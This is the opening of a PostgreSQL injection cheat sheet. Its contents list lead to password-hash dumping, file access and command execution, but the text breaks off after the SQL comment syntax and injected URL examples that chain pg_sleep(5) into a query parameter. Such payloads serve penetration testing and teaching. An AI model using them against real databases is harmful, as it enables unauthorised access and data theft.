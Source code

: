 # PostgreSQL injection

## Summary

* [PostgreSQL Comments](#postgresql-comments)
* [PostgreSQL version](#postgresql-version)
* [PostgreSQL Current User](#postgresql-current-user)
* [PostgreSQL List Users](#postgresql-list-users)
* [PostgreSQL List Password Hashes](#postgresql-list-password-hashes)
* [PostgreSQL List Database Administrator Accounts](#postgresql-list-database-administrator-accounts)
* [PostgreSQL List Privileges](#postgresql-list-privileges)
* [PostgreSQL Check if Current User is Superuser](#postgresql-check-if-current-user-is-superuser)
* [PostgreSQL database name](#postgresql-database-name)
* [PostgreSQL List databases](#postgresql-list-database)
* [PostgreSQL List tables](#postgresql-list-tables)
* [PostgreSQL List columns](#postgresql-list-columns)
* [PostgreSQL Error Based](#postgresql-error-based)
* [PostgreSQL XML Helpers](#postgresql-xml-helpers)
* [PostgreSQL Blind](#postgresql-blind)
* [PostgreSQL Time Based](#postgresql-time-based)
* [PostgreSQL Stacked query](#postgresql-stacked-query)
* [PostgreSQL File Read](#postgresql-file-read)
* [PostgreSQL File Write](#postgresql-file-write)
* [PostgreSQL Command execution](#postgresql-command-execution)
    * [CVE-2019–9193](#cve-20199193)
    * [Using libc.so.6](#using-libcso6)
* [Bypass Filter](#bypass-filter)
* [References](#references)

## PostgreSQL Comments

\`\`\`sql
--
/**/  
\`\`\`

## PostgreSQL chain injection points symbols
\`\`\`sql
; #Used to terminate a SQL command. The only place it can be used within a statement is within a string constant or quoted identifier.
|| #or statement 

# usage examples: 
/?whatever=1;(select 1 from pg_sleep(5))
/?whatever=1||(select 1 from pg_sleep(5))
\`\`\`
